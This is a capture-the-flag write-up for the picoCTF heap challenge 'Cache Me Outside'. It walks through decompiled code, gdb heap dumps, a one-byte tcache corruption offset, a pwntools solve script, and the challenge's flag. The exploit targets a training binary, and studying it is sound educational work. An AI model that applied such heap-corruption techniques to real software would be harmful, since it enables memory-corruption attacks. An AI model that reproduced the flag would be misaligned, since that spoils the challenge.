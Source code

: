 # Cache Me Outside

## Category - Binary Exploitation
## Author - MADSTACKS

### Description: 
While being super relevant with my meme references, I wrote a program to see how much you understand heap allocations. nc mercury.picoctf.net 31153 heapedit Makefile libc.so.6

### Solution:
The challenge gives us a link to download the ELF executable, a Makefile, and a libc version. This is probably the libc version used on the remote server so we know we must use
it when running our binary. To ensure this we run patchelf as such:
```
patchelf  --set-interpreter ./ld-2.27.so ./heapedit
```
Now we can run the binary with
```
./heapedit
```
To begin then we can decompile the program with Ghidra:
```C
undefined8 main(void)

{
  long in_FS_OFFSET;
  undefined user_value;
  int user_address;
  int i;
  undefined8 *p_buf_first;
  undefined8 *p_buf;
  FILE *flag_fd;
  undefined8 *p_buf_last;
  void *local_80;
  char local_78 [32];
  char flag [72];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,(char *)0x0);
  flag_fd = fopen("flag.txt","r");
  fgets(flag,0x40,flag_fd);
  local_78._0_8_ = 0x2073692073696874; 
  local_78._8_8_ = 0x6d6f646e61722061;
  local_78._16_8_ = 0x2e676e6972747320;
  local_78[24] = '\0';
  p_buf_first = (undefined8 *)0x0;
  i = 0;
  while (i < 7) {
    p_buf = (undefined8 *)malloc(0x80);
    if (p_buf_first == (undefined8 *)0x0) {
      p_buf_first = p_buf;
    }
    *p_buf = 0x73746172676e6f43;
    p_buf[1] = 0x662072756f592021;
    p_buf[2] = 0x203a73692067616c;
    *(undefined *)(p_buf + 3) = 0;
    strcat((char *)p_buf,flag);
    i = i + 1;
  }
  p_buf_last = (undefined8 *)malloc(0x80);
  *p_buf_last = 0x5420217972726f53;
  p_buf_last[1] = 0x276e6f7720736968;
  p_buf_last[2] = 0x7920706c65682074;
  *(undefined4 *)(p_buf_last + 3) = 0x203a756f;
  *(undefined *)((long)p_buf_last + 0x1c) = 0;
  strcat((char *)p_buf_last,local_78);
  free(p_buf);
  free(p_buf_last);
  user_address = 0;
  user_value = 0;
  puts("You may edit one byte in the program.");
  printf("Address: ");
  __isoc99_scanf(&DAT_00400b48,&user_address);
  printf("Value: ");
  __isoc99_scanf(&DAT_00400b53,&user_value);
  *(undefined *)((long)user_address + (long)p_buf_first) = user_value;
  local_80 = malloc(0x80);
  puts((char *)((long)local_80 + 0x10));
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

We see that the program allocates some memory and frees it but allows us to change one byte in the program to get the flag. I knew very little about GLIBC's tcache before starting
this challenge and this video really helped me understand what was going on: https://www.youtube.com/watch?v=0jHtqqdVv1Y. Make sure to watch it to get a better understanding. 
Essentially tcache is like a recycling bin of sorts for freed chunks of memory and allows them to be reused when the program allocates some memory with malloc() that is of the 
same size as a chunk in the tcache. The tcache is ordered as an ordered list containing these chunks of various sizes that all point to each other. We can look at the chunks in
use during the program using gdb gef's "heap chunks" feature and look at the tcache with "heap bins" as such:
```
gef➤  heap bins
─────────────────────────────────────────────────────────────────── Tcachebins for arena 0x7ffff7fa8b80 ───────────────────────────────────────────────────────────────────
Tcachebins[idx=7, size=0x90] count=2  ←  Chunk(addr=0x603880, size=0x90, flags=PREV_INUSE)  ←  Chunk(addr=0x6037f0, size=0x90, flags=PREV_INUSE)
──────────────────────────────────────────────────────────────────── Fastbins for arena 0x7ffff7fa8b80 ────────────────────────────────────────────────────────────────────
Fastbins[idx=0, size=0x20] 0x00
Fastbins[idx=1, size=0x30] 0x00
Fastbins[idx=2, size=0x40] 0x00
Fastbins[idx=3, size=0x50] 0x00
Fastbins[idx=4, size=0x60] 0x00
Fastbins[idx=5, size=0x70] 0x00
Fastbins[idx=6, size=0x80] 0x00
─────────────────────────────────────────────────────────────────── Unsorted Bin for arena 'main_arena' ───────────────────────────────────────────────────────────────────
[+] Found 0 chunks in unsorted bin.
──────────────────────────────────────────────────────────────────── Small Bins for arena 'main_arena' ────────────────────────────────────────────────────────────────────
[+] Found 0 chunks in 0 small non-empty bins.
──────────────────────────────────────────────────────────────────── Large Bins for arena 'main_arena' ────────────────────────────────────────────────────────────────────
[+] Found 0 chunks in 0 large non-empty bins.
gef➤  heap chunks
Chunk(addr=0x602010, size=0x290, flags=PREV_INUSE)
    [0x0000000000602010     00 00 00 00 00 00 00 00 00 00 00 00 00 00 02 00    ................]
Chunk(addr=0x6022a0, size=0x1e0, flags=PREV_INUSE)
    [0x00000000006022a0     88 24 ad fb 00 00 00 00 95 24 60 00 00 00 00 00    .$.......$`.....]
Chunk(addr=0x602480, size=0x1010, flags=PREV_INUSE)
    [0x0000000000602480     70 69 63 6f 43 54 46 7b 74 68 69 73 69 73 61 74    picoCTF{thisisat]
Chunk(addr=0x603490, size=0x90, flags=PREV_INUSE)
    [0x0000000000603490     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x603520, size=0x90, flags=PREV_INUSE)
    [0x0000000000603520     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x6035b0, size=0x90, flags=PREV_INUSE)
    [0x00000000006035b0     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x603640, size=0x90, flags=PREV_INUSE)
    [0x0000000000603640     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x6036d0, size=0x90, flags=PREV_INUSE)
    [0x00000000006036d0     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x603760, size=0x90, flags=PREV_INUSE)
    [0x0000000000603760     43 6f 6e 67 72 61 74 73 21 20 59 6f 75 72 20 66    Congrats! Your f]
Chunk(addr=0x6037f0, size=0x90, flags=PREV_INUSE)
    [0x00000000006037f0     00 00 00 00 00 00 00 00 10 20 60 00 00 00 00 00    ......... `.....]
Chunk(addr=0x603880, size=0x90, flags=PREV_INUSE)
    [0x0000000000603880     f0 37 60 00 00 00 00 00 10 20 60 00 00 00 00 00    .7`...... `.....]
Chunk(addr=0x603910, size=0x410, flags=PREV_INUSE)
    [0x0000000000603910     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x603d20, size=0x1f2f0, flags=PREV_INUSE)  ←  top chunk
```
Seeing as one of the heap chunks contains the flag we figured we can cause the program to print this chunk instead. What the program does is it calls malloc() with size 0x80 to
allocate a chunk from the tcache recycling bin and then prints it out. The chunk that is taken out of the tcache when this happens is referred to by something called the tcache
per struct which is at the very start of the heap in memory. Thus, by having this tcache per struct point to the flag chunk instead of the chunk in the tcache we can have it pull
that chunk out and print out its contents. The byte of the tcache per struct that needs to be changed is located at "0x602088" so we must subtract the place were our input is 
referring from which is "0x6034a0" to get the right offset at which to place our byte value.
```
gef>  p/d 0x602088 - 0x6034a0
$6 = -5144
```
Now we must change the value of the byte to be 0x08 to instead point to the location of one of the flags in memory:
```
gef➤  search-pattern pico
[+] Searching 'pico' in memory
[+] In '[heap]'(0x602000-0x623000), permission=rw-
  0x602480 - 0x602496  →   "picoCTF{thisisatest}\n"
  0x6034a8 - 0x6034be  →   "picoCTF{thisisatest}\n"
  0x603538 - 0x60354e  →   "picoCTF{thisisatest}\n"
  0x6035c8 - 0x6035de  →   "picoCTF{thisisatest}\n"
  0x603658 - 0x60366e  →   "picoCTF{thisisatest}\n"
  0x6036e8 - 0x6036fe  →   "picoCTF{thisisatest}\n"
  0x603778 - 0x60378e  →   "picoCTF{thisisatest}\n"
  0x603808 - 0x60381e  →   "picoCTF{thisisatest}\n"
```
Note that this was locally where I was using a test flag of "picoCTF{thisisatest}".
  
Thus our first input to the program must be -5144 and the second must be the byte value of 0x08. Final solve script:
```python
from pwn import *

r = remote("mercury.picoctf.net", 49825) #replace with your own port

r.sendlineafter("Address:", "-5144")
r.sendlineafter("Value:", b'\x08')

print(r.recvall())
```

### Flag:
```
picoCTF{53be92758865dfd2779fa96526dbd0a3}
```

